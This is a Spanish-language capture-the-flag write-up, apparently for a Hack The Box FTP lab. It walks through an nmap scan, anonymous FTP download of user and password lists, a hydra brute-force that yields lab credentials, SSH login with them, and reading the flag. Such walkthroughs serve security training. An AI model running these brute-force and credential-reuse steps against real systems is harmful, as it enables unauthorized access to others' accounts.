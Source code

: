 # Laboratorio FTP 📃

Como primer punto tenemos que **enumerar** los puertos disponibles en la máquina objetivo

```bash
nmap -p- -sS -Pn -n <IP> -oN ports
```

**Output**

<p align="center">
    <img src="./assets/FTP/01-Ports.PNG">
</p>

* El servicio **FTP** se ejecuta en el puerto `2121`

---

Nos logueamos en el **servicio FTP** como un `usuario anonymous` y nos descargamos los archivos que existen en el servicio

<p align="center">
    <img src="./assets/FTP/02-FTP.PNG">
</p>

* Usamos `get passwords.list` y `get users.list`

---

Los archivos descargados anteriormente son **listas de contraseñas y nombres de usuarios** que posiblemente sean credenciales válidas para este servicio.

Usaremos **hydra** para realizar **fuerza bruta** con las listas anteriores.

```bash
hydra -L users.list -P passwords.list -u -f ftp://[IP]:2121
```

* **`-L`** Indicamos una lista de posibles usuarios válidos.
* **`-P`** Indicamos un lista de posibles contraseñas.
* **`-u`** Testearemos cada usuario con todas las contraseñas.
* **`-f`** Cuando encuentre **credenciales válidas** se detiene el ataque.

**Output**
```
[2121][ftp] host: 10.129.203.6   login: robin   password: 7iz4rnckjsduza7
```

---

Tenemos las credenciales **`robin:7iz4rnckjsduza7`**, ahora nos loguearemos en el servicio **`SSH`**

+ `ssh robin@[IP]`

Ahora leemos la **flag** 🏴
```
$ cat flag.txt
HTB{ATT4CK1NG_F7P_53RV1C3}
```
